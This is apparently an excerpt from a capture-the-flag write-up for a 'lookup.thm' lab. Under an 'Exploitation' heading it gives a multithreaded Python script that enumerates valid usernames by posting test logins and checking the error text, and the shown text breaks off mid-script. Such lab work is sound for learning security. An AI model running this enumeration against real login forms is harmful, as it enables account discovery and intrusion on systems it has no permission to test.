 
# EXPLOITATION
---

### Python
---


```python
import requests
import sys
import threading
from tqdm import tqdm

lock = threading.Lock()
valid_usernames = []
invalid_usernames = []


# Creating the function to check for usernames:

def check_username(url, username):
 # Setting up the invalid error we got from reading the burp request
 invalid_errors = [
 "Wrong username or password. Please try again."
 ]
 # Setting up the headers we got in the burp request
 headers = {
 'Host': 'lookup.thm',
 'User-Agent': 'Intigriti',
 'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,'
 'image/svg+xml,*/*;q=0.8',
 'Accept-Language': 'en-US,en;q=0.5',
 'Accept-Encoding': 'gzip, deflate, br',
 'Content-Type': 'application/x-www-form-urlencoded',
 'Origin': 'http://lookup.thm',
 'Connection': 'keep-alive',
 'Referer': 'http://lookup.thm/login.php',
 'Upgrade-Insecure-Requests': '1',
 'Priority': 'u=0, i',
 }
 # Creating the dictionary with our data
 data = {
 'username': username,
 'password': 'test',
 'function': 'login'
 }
 try:
 # Sending the request and reading the status code
 response = requests.post(url, headers=headers, data=data, allow_redirects=True)
 if response.status_code != 200:
 return sys.exit(1)
 # If there's no errors in the response text, we can append the username to the empty list we set up before
 if not any(error in response.text for error in invalid_errors):
 with lock:
 print(f'[+] Got valid username: {username}')
 valid_usernames.append(username)
 # Else, we append to invalid usernames list
 else:
 with lock:
 invalid_usernames.append(username)
 except requests.RequestException as e:
```